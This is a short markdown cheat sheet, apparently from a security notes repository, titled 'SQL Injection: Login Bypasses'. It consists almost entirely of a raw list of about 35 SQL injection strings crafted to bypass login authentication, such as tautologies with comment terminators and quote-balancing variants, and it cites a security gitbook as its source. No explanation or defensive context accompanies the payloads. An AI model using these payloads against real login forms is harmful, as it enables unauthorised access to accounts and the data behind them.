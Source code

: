 # SQL Injection

## Login Bypasses

```
' or 1=1 --
' or '1'='1  
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)



